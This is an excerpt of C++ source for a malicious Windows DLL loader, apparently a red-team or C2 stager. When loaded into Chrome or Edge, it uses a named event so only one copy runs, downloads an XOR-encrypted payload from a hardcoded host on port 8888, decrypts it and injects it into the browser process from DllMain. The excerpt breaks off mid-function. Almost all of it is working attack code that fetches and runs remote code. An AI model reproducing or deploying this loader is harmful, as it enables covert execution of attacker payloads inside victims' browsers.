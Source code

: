 ```c++
    // XOR decrypt the downloaded data
    XORDecryptEncrypt(encryptedData, xorKey);
    
    // After XOR decryption, we now have the original data
    std::cout << "Decryption successful. Decrypted data size: " << encryptedData.size() << " bytes." << std::endl;
    
    // inject to our process
    HANDLE pHandle = GetCurrentProcess();
    iSC(pHandle, encryptedData.data(), encryptedData.size());
}
BOOL IsPayloadRunning()
{
	HANDLE hEvent = CreateEvent(NULL, TRUE, FALSE, TEXT("////EVENT-48374635899"));
	if(hEvent != NULL)
	{
		if(GetLastError() != ERROR_ALREADY_EXISTS)
		{
			return FALSE;
		}
	}
	return TRUE;
}
BOOL IsChromeOrEdge()
{
	wchar_t processPath[MAX_PATH] = {0};
	if(GetModuleFileNameW(NULL, processPath, MAX_PATH))
	{
		wchar_t* baseName = wcsrchr(processPath, L'\\');
		if(baseName)
		{
			baseName++;
			if(_wcsicmp(baseName, L"chrome.exe") == 0 || _wcsicmp(baseName, L"msedge.exe") == 0)
			{
				return TRUE;
			}
		}
	}
	return FALSE;
}
DWORD WINAPI main(LPVOID pp)
{
    if (IsChromeOrEdge())
	{
		if (!IsPayloadRunning())
		{
			std::wstring url = L"https://10.10.10.50:8888/agent.bin_enc"; // Replace with your file URL
                        std::string xorKey = "rexkyris"; //should match the one used for encryption
                        Run(url, xorKey);
		}
	}
    
    return 0;
}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
	
	HANDLE th;
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
	{
```